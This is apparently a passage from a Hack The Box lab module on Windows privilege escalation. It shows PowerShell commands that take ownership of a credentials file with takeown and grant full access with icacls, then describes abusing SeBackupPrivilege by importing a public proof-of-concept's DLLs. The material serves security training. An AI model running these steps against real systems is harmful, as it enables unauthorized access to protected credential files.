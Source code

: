 Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

We can confirm ownership using the same command as before. We now see that our user account is the file owner.

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                          Owner
----     ---------                          -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

##### Modifying the File ACL

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

Let's grant our user full privileges over the target file.

```powershell
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```


## **Windows Built-in Groups**

### Backup Operators

Membership of this group grants its members the `SeBackup` and `SeRestore` privileges.

The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the [FILE_FLAG_BACKUP_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) flag.

We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. First, let's import the libraries in a PowerShell session.

It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.
#### Importing Libraries


```powershell
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
